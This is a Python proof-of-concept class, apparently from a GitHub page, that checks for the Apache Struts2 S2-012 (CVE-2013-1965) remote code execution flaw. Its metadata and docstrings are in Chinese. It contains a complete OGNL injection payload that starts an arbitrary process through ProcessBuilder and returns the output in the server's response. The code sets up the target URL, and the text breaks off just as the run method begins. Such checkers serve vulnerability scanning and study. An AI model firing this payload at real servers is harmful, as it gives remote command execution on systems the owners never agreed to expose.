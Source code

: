 ### POC

```python

#!/usr/bin/env python3

import random
import string
import requests

class S2_012_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-012漏洞,又名CVE-2013-1965漏洞',
            'description': 'Struts2 S2-012漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-04-16',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if  '.action' not in self.url:
            self.url = self.url + '/user.action'
        self.capta = self.get_capta() 
        self.payload =  '%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{S2_012})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}'

    def filter(self, check_str):
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp

    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
```